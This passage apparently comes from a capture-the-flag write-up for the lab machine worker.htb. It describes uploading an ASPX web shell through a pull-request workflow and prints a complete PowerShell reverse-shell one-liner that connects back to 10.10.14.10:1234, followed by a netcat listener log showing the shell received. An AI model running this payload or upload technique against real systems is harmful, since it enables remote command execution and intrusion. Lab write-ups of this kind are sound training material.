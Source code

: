 First I try a reverse shell aspx file made with msfvenom. Here are the steps to upload the file:

1. Create a new branch on any of the sub-domains(I used alpa) and name it anything (literally if you want to). Remember to link it to a work item. Just pick something from suggestions.
2. Upload the file to this branch. 
3. Create a pull request.
4. Approve the request and click on complete. 

When you browse to the shell file  like `http://alpha.worker.htb/shell.aspx` and setup a netcat listener you shouldn't get a shell. lol. I say this because I tried multiple shells and then the one which finally worked was [this one](https://github.com/xl7dev/WebShell/blob/master/Aspx/ASPX%20Shell.aspx). 

Though it is not a direct shell. It looks like this after you upload it.

<img src="/images/worker/aspxshell.png" width="1000">

After that you need to enter the command for a reverse shell.

```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.10',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

What does this command mean? I have no idea. Tell me too if you find anything. All I know is I got a shell now.

```
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from worker.htb 50047 received!
whoami
iis apppool\defaultapppool
PS W:\sites\alpha.worker.htb> 
```
